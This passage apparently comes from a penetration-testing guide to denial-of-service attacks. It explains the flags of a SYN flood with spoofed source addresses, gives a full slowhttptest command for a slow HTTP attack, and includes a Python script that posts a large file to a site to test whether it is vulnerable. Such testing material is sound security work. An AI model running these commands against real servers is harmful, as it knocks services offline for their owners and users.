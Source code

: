 Let’s explain in detail the above command:

We’re sending 15000 packets (-c 15000) at a size of 120 bytes (-d 120) each. We’re specifying that the SYN Flag (-S) should be enabled, with a TCP window size of 64 (-w 64). To direct the attack to our victum’s HTTP web server we specify port 80 (-p 80) and use the --flood flag to send packets as fast as possible. As you’d expect, the --rand-source flag generates spoofed IP addresses to disguise the real source and avoid detection but at the same time stop the victim’s SYN-ACK reply packets from reaching the attacker.


## 2) Slow HTTP GET/POST Vulnerability

Slow HTTP attacks are denial-of-service (DoS) attacks that rely on the fact that the HTTP protocol, by design, requires a request to be completely received by the server before it is processed. If an HTTP request is not complete, or if the transfer rate is very low, the server keeps its resources busy waiting for the rest of the data. When the server’s concurrent connection pool reaches its maximum, this creates a denial of service. These attacks are problematic because they are easy to execute, i.e. they can be executed with minimal resources from the attacking machine.

`sudo apt install slowhttptest`

`slowhttptest -c 10000 -H -g -o slowhttp -i 1 -r 2000 -t GET -u https://example.com -x 2400 -p 3`

## 3) Big entity

Try sending a big request to the server. You can do it by send request with POST method to root with custom parameter or try in other fields like password or uploaders file name.
  ### 3.1) Python Script to send large file (a.txt with 50mg) as parameter to root directory:
```
import requests
import time

from requests.models import Response
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}  # If you want to see request in proxy server like Burp

session = requests.session()
f=open('a.txt','r').read()
#f=open(r'C:\Users\User\Desktop\dos\a.txt').read()   # Same to above line
burp0_url = "http://www.site.com/"
burp0_cookies = {"_ga": "GA1.2.1958363218.1640679715", "APPNNPS": "0emjb3ejnh1xxsnz025rhwvt"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Referer": "http://www.site.com/", "Upgrade-Insecure-Requests": "1"}
burp0_data = f
start = time.time()
response = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, proxies=proxies, verify=False)
print(response)
print(f'Time: {time.time() - start}')

```
  If Server is processing our request for long time and doesn't give time out to us, it's vulnerable.
  